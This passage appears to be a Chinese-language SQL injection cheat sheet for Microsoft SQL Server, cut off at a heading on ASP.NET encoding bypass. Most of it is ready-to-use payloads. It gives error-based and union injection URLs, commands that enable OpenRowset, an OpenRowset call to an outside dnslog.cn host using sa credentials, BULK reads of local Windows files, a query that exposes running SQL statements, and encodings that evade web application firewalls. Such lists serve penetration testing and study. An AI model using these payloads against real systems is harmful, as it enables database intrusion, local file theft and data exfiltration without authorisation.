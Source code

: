 
**报错注入:**(基于错误的向量需要别名或名称，因为不能将两者的表达式输出格式化为JSON。)
`https://vuln.app/getItem?id=1'+and+1=(select+concat_ws(0x3a,table_schema,table_name,column_name)a+from+information_schema.columns+for+json+auto)--`
## 读取本地文件
### OpenRowset()
```sql
--开启OpenRowSet()
exec sp_configure 'show advanced options',1
reconfigure
exec sp_configure 'Ad Hoc Distributed Queries',1
reconfigure
```
```sql
--OpenRowset()
select * from OpenRowset('sqloledb','server=aaaa.dnslog.cn;uid=sa;pwd=sa','')
```
**联合查询:**  
`https://vuln.app/getItem?id=-1+union+select+null,(select+x+from+OpenRowset(BULK+’C:\Windows\win.ini’,SINGLE_CLOB)+R(x)),null,null`  
**报错注入:**  
`https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--`  

**权限:** BULK选项需要ADMINISTER BULK OPERATIONS或ADMINISTER DATABASE BULK OPERATIONS权限。

## 爆出当前SQL语句
当前执行的SQL语句可以从`sys.dm_exec_requests`和 `sys.dm_exec_sql_text`中查询
`https://vuln.app/getItem?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null`  

**权限**：如果用户在服务器上具有“查看服务器状态”权限，则该用户将在SQL Server实例上看到所有正在执行的会话；否则，用户将仅看到当前会话。
## BypassWAF
非标准的空白字符：%C2%85 или %C2%A0
[https://vuln.app/getItem?id=1unionselect null,@@version,null--](https://vuln.app/getItem?id=1%C2%85union%C2%85select%C2%A0null,@@version,null--)
科学（0e）和十六进制（0x）表示法，用于混淆UNION：
[https://vuln.app/getItem?id=0eunion+select+null,@@version,null--](https://vuln.app/getItem?id=0eunion+select+null,@@version,null--)
[https://vuln.app/getItem?id=0xunion+select+null,@@version,null--](https://vuln.app/getItem?id=0xunion+select+null,@@version,null--)
在FROM和列名之间用点代替空格：
[https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--](https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--)
SELECT和一次性列之间的\N分隔符：
[https://vuln.app/getItem?id=0xunion+select\Nnull,@@version,null+from+users--](https://vuln.app/getItem?id=0xunion+select%5CNnull,@@version,null+from+users--)

### ASP.NET 编码bypass

